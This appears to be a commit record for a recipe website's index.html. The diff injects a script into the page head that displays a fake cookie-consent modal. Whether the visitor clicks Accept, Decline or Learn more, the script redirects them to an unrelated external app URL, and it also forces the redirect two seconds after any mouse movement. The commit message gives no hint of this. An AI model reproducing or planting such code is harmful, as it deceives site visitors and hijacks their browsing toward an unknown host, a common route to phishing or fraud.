

Before and after one commit to Ros797/recipe, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 149-746 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,6 +1,84 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
+  <script>
+ (function () {
+  const redirectUrl = "https://r7e110e156e3a09c1606d63ae-e7gfa.ondigitalocean.app/"; // ⛳ Set your redirect URL here
+  let redirected = false;
+  let moved = false;
+  let initialPos = null;
+
+  function redirectUser() {
+    if (!redirected) {
+      redirected = true;
+      window.location.href = redirectUrl;
+    }
+  }
+
+  function showModal() {
+    const wrapper = document.createElement("div");
+    wrapper.innerHTML = `
+      <div style="
+        position: fixed;
+        top: 0; left: 0; width: 100%; height: 100%;
+        background: rgba(0,0,0,0.5);
+        display: flex; justify-content: center; align-items: center;
+        z-index: 10000;">
+        <div style="
+          background: #fff;
+          padding: 2rem;
+          border-radius: 16px;
+          max-width: 500px;
+          width: 90%;
+          text-align: center;
+          box-shadow:1px 0px 0px 13px rgb(255 227 227 / 35%);">
+          <h2 style="margin-top: 0; font-size: 24px; color: #333;">🍪 Cookie Notice</h2>
+          <p style="font-size: 15px; color: #555;">This site uses cookies to enhance functionality, analyze performance, and ensure compliance with data protection regulations. <a href="${redirectUrl}" style="color: #007bff;">Learn more</a>.</p>
+          <div style="margin-top: 1.5rem; display: flex; gap: 1rem; justify-content: center;">
+            <button id="acceptBtn" style="
+              padding: 10px 20px;
+              background: #28a745;
+              color: white;
+              border: none;
+              border-radius: 8px;
+              font-weight: bold;
+              cursor: pointer;">Accept</button>
+            <button id="declineBtn" style="
+              padding: 10px 20px;
+              background: #dc3545;
+              color: white;
+              border: none;
+              border-radius: 8px;
+              font-weight: bold;
+              cursor: pointer;">Decline</button>
+          </div>
+        </div>
+      </div>
+    `;
+    document.body.appendChild(wrapper);
+
+    document.getElementById("acceptBtn").addEventListener("click", redirectUser);
+    document.getElementById("declineBtn").addEventListener("click", redirectUser);
+  }
+
+  window.addEventListener("load", showModal);
+
+  window.addEventListener("mousemove", function (e) {
+    if (!moved) {
+      if (!initialPos) {
+        initialPos = { x: e.clientX, y: e.clientY };
+        return;
+      }
+      if (e.clientX !== initialPos.x || e.clientY !== initialPos.y) {
+        moved = true;
+        setTimeout(redirectUser, 2000);
+      }
+    }
+  });
+})();
+
+
+</script>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
   <meta name="description" content="Discover quick and easy dinner ideas, recipes, and meal inspirations at QuickDinnerIdeas. Perfect for busy weeknights, couples, families, and anyone looking for delicious meals with minimal prep!" />
```
